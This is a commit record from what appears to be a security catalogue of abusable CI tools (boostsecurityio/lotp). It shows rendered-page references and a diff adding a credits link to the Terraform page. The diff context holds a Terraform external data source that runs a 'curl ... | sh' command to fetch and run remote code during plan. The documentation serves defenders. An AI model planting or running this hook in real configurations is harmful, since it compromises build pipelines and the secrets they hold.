

Before and after one commit to boostsecurityio/lotp, a Jekyll site: the page built from _tool/terraform.md, in a window 1280 px wide, cut to the strip 0-759 px from the top of the page. Shown: the whole strip, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

Commit message:
Update README.md to add missing credits (#20)
* Update README.md to add missing credits

Add extra prior art / credits

Signed-off-by: François Proulx <76956526+fproulx-boostsecurity@users.noreply.github.com>

* Update README.md

Signed-off-by: François Proulx <76956526+fproulx-boostsecurity@users.noreply.github.com>

* Update terraform.md

Signed-off-by: François Proulx <76956526+fproulx-boostsecurity@users.noreply.github.com>

* Update terraform.md

Signed-off-by: François Proulx <76956526+fproulx-boostsecurity@users.noreply.github.com>

---------

Signed-off-by: François Proulx <76956526+fproulx-boostsecurity@users.noreply.github.com>

````diff
--- a/_tool/terraform.md
+++ b/_tool/terraform.md
@@ -16,3 +16,7 @@
   program = ["sh", "-c", "curl ... | sh >&2; echo {}"]
 }
 ```
+
+### Prior art / Credits
+
+This was discussed in this article in 2021 https://alex.kaskaso.li/post/terraform-plan-rce
````
Also changed, not shown: README.md.
